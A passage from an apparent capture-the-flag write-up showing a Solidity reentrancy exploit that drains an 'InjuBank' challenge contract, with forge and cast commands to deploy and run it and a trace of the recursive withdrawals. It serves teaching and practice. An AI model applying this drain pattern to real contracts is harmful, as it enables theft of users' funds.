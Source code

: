 ```solidity
        require(msg.value == 5 ether, "need 5 ether");
        setup = Setup(_setup);
        IB = InjuBank(setup.IB());
    }

    function exploit() public{
        IB.deposit{value: 5 ether}();
        IB.withdraw(5 ether);
    }


    receive() external payable { 
        if(address(IB).balance >= 5 ether){
            IB.withdraw(5 ether);
        }
    }

}
```
&nbsp;  
To deploy the exploit contract and run it, we can use this command. &nbsp;  
&nbsp;  
```bash
// Deploying the Exploit Contract
forge create src/inju-bank/$EXPLOIT_FILE:$EXPLOIT_NAME -r $RPC_URL --private-key $PK --constructor-args $SETUP_ADDR --value 5ether

// Calling the exploit
cast send -r $RPC_URL --private-key $PK $EXPLOIT_ADDR "exploit()"
```
&nbsp;  
After running the command, if you press the *Flag* button now you should get the flag. By the way, if you are curious on like how the attack worked, here is a little flow of the Exploit. &nbsp;  
&nbsp;  
```bash
├─ [123849] Exploit::attack()
    │   ├─ [22434] InjuBank::deposit{value: 5000000000000000000}()
    │   │   └─ ← ()
    │   ├─ [91371] InjuBank::withdraw(5000000000000000000 [5e18])
    │   │   ├─ [83596] Exploit::receive{value: 5000000000000000000}()
    │   │   │   ├─ [83031] InjuBank::withdraw(5000000000000000000 [5e18])
    │   │   │   │   ├─ [75256] Exploit::receive{value: 5000000000000000000}()
    │   │   │   │   │   ├─ [74691] InjuBank::withdraw(5000000000000000000 [5e18])
    │   │   │   │   │   │   ├─ [66916] Exploit::receive{value: 5000000000000000000}()
    │   │   │   │   │   │   │   ├─ [66351] InjuBank::withdraw(5000000000000000000 [5e18])
    │   │   │   │   │   │   │   │   ├─ [58576] Exploit::receive{value: 5000000000000000000}()
    │   │   │   │   │   │   │   │   │   ├─ [58011] InjuBank::withdraw(5000000000000000000 [5e18])
    │   │   │   │   │   │   │   │   │   │   ├─ [50236] Exploit::receive{value: 5000000000000000000}()
    │   │   │   │   │   │   │   │   │   │   │   ├─ [49671] InjuBank::withdraw(5000000000000000000 [5e18])
    │   │   │   │   │   │   │   │   │   │   │   │   ├─ [41896] Exploit::receive{value: 5000000000000000000}()
    │   │   │   │   │   │   │   │   │   │   │   │   │   ├─ [41331] InjuBank::withdraw(5000000000000000000 [5e18])
    │   │   │   │   │   │   │   │   │   │   │   │   │   │   ├─ [33556] Exploit::receive{value: 5000000000000000000}()
    │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   ├─ [32991] InjuBank::withdraw(5000000000000000000 [5e18])
    │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   ├─ [25216] Exploit::receive{value: 5000000000000000000}()
    │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   ├─ [24651] InjuBank::withdraw(5000000000000000000 [5e18])
```